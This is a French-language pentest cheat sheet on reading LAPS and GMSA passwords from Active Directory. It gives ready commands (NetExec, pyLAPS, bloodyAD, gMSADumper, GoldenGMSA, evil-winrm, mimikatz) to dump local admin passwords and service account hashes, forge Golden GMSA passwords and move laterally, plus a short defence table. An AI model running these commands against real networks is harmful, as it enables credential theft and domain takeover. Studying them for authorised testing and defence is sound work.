

# 🗝️ LAPS et GMSA

> [!info] **En 1 phrase**
> LAPS et GMSA stockent des mots de passe **dans Active Directory** — si on peut les **lire**,
> on obtient les credentials **admin local de toutes les machines** (LAPS) ou d'un **compte de service** (GMSA).

> [!info] 💡 **Deux bêtes différentes**
> - **LAPS** (Local Administrator Password Solution) : mdp admin local, unique par machine, stocké **en clair** dans l'attribut `ms-mcs-AdmPwd`.
> - **GMSA** (Group Managed Service Account) : compte de service dont le mdp est **auto-géré** et dérivé de la **KDS root key**.

---

## 🎯 Pourquoi c'est un jackpot



- **LAPS** → mdp **en clair** pour admin local de **toutes** les machines où l'on peut lire l'attribut.
- **GMSA** → hash NT du compte de service → [[Pass-the-Hash|PtH]] ou déchiffrement de ses secrets.

---

## 🗝️ LAPS

### Lire le mot de passe

> L'attribut `ms-mcs-AdmPwd` est **confidentiel** : seuls Domain Admins et les groupes autorisés
> (`AdmPwd` extended rights) le voient. Mais **beaucoup d'entreprises** donnent le droit à un groupe
> "deployment" / "IT" → une fois ce compte compromis, c'est jackpot.

```bash
# NetExec (le plus simple)
nxc ldap 10.10.10.10 -u user -p pass -M laps

# pyLAPS (lecture + écriture)
python3 pyLAPS.py --action get -u user -d domain -p pass --dc-ip 10.10.10.10

# LAPSDumper
python3 laps.py -u user -p pass -d domain.local

# ldapsearch brut
ldapsearch -x -h 10.10.10.10 -D "user@domain" -w 'pass' \
  -b "dc=domain,dc=local" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd
```

```powershell
# Windows (PowerShell)
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*))").findAll() | ForEach-Object { $_.properties }

# LAPSToolkit (analyse des droits + lecture)
Get-LAPSComputers
Find-AdmPwdExtendedRights     # qui peut lire ?
Find-LAPSDelegatedGroups      # quels groupes ont le droit ?
```

### Élever via LAPS

```bash
# Utiliser le mdp LAPS lu pour se connecter en admin local de la machine cible
nxc smb 10.10.10.20 -u Administrator -p 'mdp-LAPS-lu' --shares
evil-winrm -i 10.10.10.20 -u Administrator -p 'mdp-LAPS-lu'
```

> [!warning] 🚩 **Escalade classique** : `Account Operators` peut ajouter un utilisateur dans les
> groupes `LAPS ADM` / `LAPS READ` (considérés non-admin) → puis lire tous les mdp LAPS.

---

## 🧮 GMSA

### Lire le mot de passe (hash NT)

> Le mdp GMSA est stocké dans `msDS-ManagedPassword` (BLOB), lisibles par les membres de
> `msDS-GroupMSAMembership` (souvent les serveurs qui hébergent le service... ou un compte compromis).

```bash
# NetExec
nxc ldap 10.10.10.10 -u user -p pass --gmsa

# bloodyAD
bloodyAD --host 10.10.10.10 -d domain -u user -p pass get search \
  --filter '(ObjectClass=msDS-GroupManagedServiceAccount)' --attr msDS-ManagedPassword

# gMSADumper (dump + décrypte via LSA)
python3 gMSADumper.py -u User -p Password1 -d domain.local

# ldeep
ldeep ldap -s dc1.domain.local -u user -p pass -d domain gmsa
```

```powershell
# Windows : GMSAPasswordReader
GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
```

### Golden GMSA (si on a la KDS root key)

> Le mdp d'une GMSA ne "change" jamais vraiment : il est **dérivé** de la KDS root key + du SID.
> Si un DC est compromis → on a la KDS root key → on peut forger le mdp de **toutes** les GMSA,
> passé, présent et futur. **Irrémédiable** (la clé ne peut pas être "reset").

```powershell
GoldenGMSA.exe gmsainfo                              # énumérer les GMSA
GoldenGMSA.exe kdsinfo                               # dump des KDS root keys
GoldenGMSA.exe compute --sid <gmsa-sid> --kdskey <b64> --pwdid <b64>
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Restreindre les lecteurs LAPS/GMSA** | Seuls les vrais groupes opérationnels, revoir les `Find-AdmPwdExtendedRights` |
| **Éviter les groupes "catch-all"** | Un groupe "deployment" avec lecture LAPS = porte dérobée |
| **LAPS : pas de mots de passe partagés** | Un mdp par machine, unique, renouvelé |
| **GMSA : rotation automatique** | Confiée à AD (30 jours), ne pas forcer en clair |
| **Protéger la KDS root key** | Comme un secret domaine (au même niveau que krbtgt) |

## ⚠️ Tips & Pièges

- LAPS s'utilise **sans cracker** : le mdp est en clair, connexion directe en admin local.
- Le mdp LAPS lu est **daté** : vérifie l'expiration (`ms-mcs-AdmPwdExpirationTime`), il peut tourner toutes les X heures.
- `nxc smb ... -M laps` échoue silencieusement si ton compte n'a pas le droit — teste plusieurs comptes.
- Un GMSA compromis ouvre souvent un service : pense **SPN → Kerberoast-like** mais avec le vrai hash → direct PtH.
- GMSA : vérifie aussi le **LSA local** (`secretsdump` / mimikatz `lsadump::secrets`) qui peut contenir le mdp décrypté si un service tourne avec ce compte.

---

> [!info] 📚 **Sources**
> - [InternalAllTheThings — LAPS](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/pwd-read-laps.md)
> - [InternalAllTheThings — GMSA](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/pwd-read-gmsa.md)
> - [Golden GMSA — Semperis](https://www.semperis.com/blog/golden-gmsa-attack/)

➡️ Liens : [[Pass-the-Hash|🔑 Pass-the-Hash]] · [[05 - Active Directory|👑 Active Directory]] · [[Shadow Credentials|🌑 Shadow Credentials]]
